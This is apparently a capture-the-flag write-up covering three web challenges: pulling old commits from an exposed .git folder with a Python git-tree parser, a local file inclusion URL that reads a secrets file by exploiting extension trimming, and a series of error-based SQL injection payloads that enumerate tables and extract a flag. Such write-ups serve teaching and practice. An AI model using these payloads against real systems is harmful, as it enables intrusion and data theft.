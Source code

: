 ## commit and order
(getting code from .git folder)
Tools used
- zlib-flate
- custom script to parse tree files

/.git -> check logs -> get commits  (using zlib-flate) -> get objects (of commit) -> get tree -> unreadable data -> custom script to decode tree file format -> get file blob hash -> get blob from objects -> get file from blob using zlib-flate -> do repetively for old commits -> will get flag in one of the old commit to admin.php

```python
import zlib
import sys
import binascii

def parse_git_tree(filepath):
    with open(filepath, "rb") as f:
        data = f.read()
    decompressed = zlib.decompress(data)

    # Skip "tree <size>\0"
    header_end = decompressed.index(b'\x00')
    tree_data = decompressed[header_end+1:]

    i = 0
    while i < len(tree_data):
        mode_end = tree_data.index(b' ', i)
        mode = tree_data[i:mode_end].decode()

        name_end = tree_data.index(b'\x00', mode_end)
        name = tree_data[mode_end+1:name_end].decode()

        sha = tree_data[name_end+1:name_end+21]
        sha_hex = binascii.hexlify(sha).decode()

        print(f"Mode: {mode} | Name: {name} | SHA-1: {sha_hex}")

        i = name_end + 21  # move to next entry

# Example usage
parse_git_tree(sys.argv[1])
```

## how i parsed your json 
restricted lfi 
```
http://23.179.17.40:58004/select?record=*&container=/app/secrets.txt.py
```
The server is trimming extension, but only the last one so secrets.txt.py will be trimmed to secrets.txt by endpoint.


## breaking authentication
(blind sqli)

```
' and extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))-- -
~app~

' and extractvalue(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 0x7e))-- -
~secrets~

' and extractvalue(1, concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='secrets' LIMIT 0,1),0x7e))-- -
~flag~

' and extractvalue(1, concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='secrets' LIMIT 1,1),0x7e))-- -
~value~

' and extractvalue(1, concat(0x7e, (SELECT name FROM secrets LIMIT 0,1), 0x7e))-- - 
~flag~

' and extractvalue(1, concat(0x7e, (SELECT value FROM secrets LIMIT 0,1), 0x7e))-- - 
~CIT{36b0efd6c2ec7132}~
```
